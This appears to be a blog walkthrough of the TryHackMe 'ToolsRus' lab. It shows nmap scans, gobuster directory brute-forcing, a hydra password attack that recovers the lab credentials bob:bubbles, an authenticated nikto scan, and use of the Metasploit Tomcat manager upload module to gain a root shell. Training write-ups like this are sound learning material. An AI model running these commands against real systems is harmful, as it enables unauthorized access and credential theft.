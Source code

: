 ```yaml
---
layout: post
title: Walkthrough - ToolsRus
published: true
---
```


[https://tryhackme.com/room/toolsrus](https://tryhackme.com/room/toolsrus)

* * *

## Hacking

We get to use the following tools

- Dirbuster
- Hydra
- Nmap
- Nikto
- Metasploit

```shell
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
8009/tcp open  ajp13   syn-ack Apache Jserv (Protocol v1.3)

22/tcp   open  ssh     syn-ack ttl 61
80/tcp   open  http    syn-ack ttl 61
1234/tcp open  hotline syn-ack ttl 61
8009/tcp open  ajp13   syn-ack ttl 61
```

* * * 

## What directory can you find, that begins with a "g"?

- ``gobuster dir -u http://10.10.192.13/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100 -x txt,html,php --no-error``

* * * 

## Whose name can you find from this directory?

- Visit ``/guidelines/`` - bob

* * * 

## What directory has basic authentication?

- ``/protected/``

* * * 

## What is bob's password to the protected part of the website?

- ``hydra -l bob -P /usr/share/seclists/Passwords/rockyou.txt 10.10.192.13 http-get /protected``
- ``[80][http-get] host: 10.10.192.13   login: bob   password: bubbles``

* * * 

## What other port that serves a webs service is open on the machine?

- ``sudo nmap -Pn -sS -p- -T4 10.10.192.13 -vvv``

* * * 

## Going to the service running on that port, what is the name and version of the software?

Answer format: Full_name_of_service/Version

- Apache Tomcat/7.0.88

* * * 

## Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above.

How many documentation files did Nikto identify?

- ``nikto -h http://10.10.192.13:1234/manager/html -id bob:bubbles -Format xml -o niktoscan``
- scan took a few hours...

* * * 

## What is the server version (run the scan against port 80)?

- ``nmap -sV -sT -p22,80,8009 -T4 10.10.192.13 -vvv``

* * * 

## What version of Apache-Coyote is this service using?

- ``nmap -sV -sT -p22,80,8009 -T4 10.10.192.13 -vvv``

* * * 

## Use Metasploit to exploit the service and get a shell on the system.

- ``multi/http/tomcat_mgr_upload``

**What user did you get a shell as?**

- root

**What text is in the file /root/flag.txt**

- ``cat flag.txt``

* * * 